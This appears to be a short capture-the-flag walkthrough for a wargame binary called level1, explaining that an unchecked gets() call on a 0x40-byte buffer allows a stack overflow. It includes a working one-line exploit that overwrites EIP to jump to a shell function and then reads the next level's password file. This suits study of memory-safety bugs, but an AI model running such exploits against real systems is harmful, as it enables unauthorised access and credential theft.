 # Walkthrough

## Step 1: Disassembling the executable

see source.c

The executable calls the gets function on a buffer of 0x40. According to the man, this (deprecated) function reads a line from stdin. There is no check of the size of the input read, so we can easily do a buffer overflow.

To exploit this executable, we use the buffer overflow to rewrite the eip register in order to jump to a function that launches a shell as level2.

```
(python -c "print('A'* 0x40 + 'B' * 12 + '\x44\x84\x04\x08')"; echo "cat /home/user/level2/.pass") | ./level1
```
